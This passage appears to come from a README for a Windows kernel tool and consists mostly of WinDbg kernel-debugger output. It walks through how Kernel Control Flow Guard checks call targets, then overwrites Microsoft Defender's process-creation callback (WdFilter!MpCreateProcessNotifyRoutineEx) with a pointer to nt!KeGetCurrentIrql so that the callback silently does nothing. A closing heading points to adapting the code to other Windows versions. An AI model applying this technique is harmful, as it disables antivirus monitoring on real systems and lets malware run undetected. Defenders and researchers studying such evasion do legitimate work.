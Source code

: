 <span style="color: green;">fffff807`23820170 4c8b1d89179e00  mov     r11,qword ptr [nt!guard_icall_bitmap (fffff807`24201900)]</span>
fffff807`23820177 4885c0          test    rax,rax
</pre>

The real function which we want to call will be loaded into rax and KCFG (nt!guard_dispatch_icall) will be called, which will verify that the function inside rax is a valid function through a bitmap using the following process (the process is inside nt!guard_dispatch_icall).

The calculation are based on the function `nt!KeGetCurrentIrql`, because this is the function that we are going to end up calling.

<pre>
lkd> ? nt!KeGetCurrentIrql >> 9 (Will be used as Index)
Evaluate expression: 36028779900694815 = 007ffffc`03abf11f

lkd> ? (nt!KeGetCurrentIrql >> 3) mod 40 (BitToCheck)
Evaluate expression: 54 = 00000000`00000036

lkd> dqs nt!guard_icall_bitmap L1
fffff807`58a01900  fbffa8d7`9452c248

lkd> dqs fbffa8d7`9452c248 + 007ffffc`03abf11f (Index) * 0x08 L1 (Entry)
ffffa8b7`b1b24b40  00410004`00004400

lkd> .formats 00410004`00004400
Evaluate expression:
Binary:  00000000 0<span style="color: green;">1</span>000001 00000000 00000100 00000000 00000000 01000100 00000000
</pre>

The `BitToCheck` which in our case is the bit 54 needs to be `1`, if it's `1` it means the call is valid which is the case for `KeGetCurrentIrql`.

So the plan is to replace the function pointing to the AV function to be called (`fffff807252e9b70`) to KeGetCurrentIrql (`fffff80723623fb0`) which will render the entry useless.

<pre>
lkd> u KeGetCurrentIrql L2
<span style="color: green;">nt!KeGetCurrentIrql:</span>
<span style="color: green;">fffff807`23623fb0</span> 440f20c0        mov     rax,cr8
fffff807`23623fb4 c3              ret
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <span style="color: red;"><del>fffff807`252e9b70</del></span>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> eq ffff800e`5c7f7258 fffff807`23623fb0
lkd> dq ffff800e`5c7f7250 L4
ffff800e`5c7f7250  00000000`00000020 <span style="color: green;">fffff807`23623fb0</span>
ffff800e`5c7f7260  00000000`00000006 00000000`00000000
lkd> u fffff807`252e9b70 L2
<span style="color: red;">WdFilter!MpCreateProcessNotifyRoutineEx:</span>
<span style="color: red;">fffff805`55e99b70</span> 48895c2410      mov     qword ptr [rsp+10h],rbx
fffff805`55e99b75 48894c2408      mov     qword ptr [rsp+8],rcx
</pre>

## How to Fix the code to work on your windows version (process creation callback first)
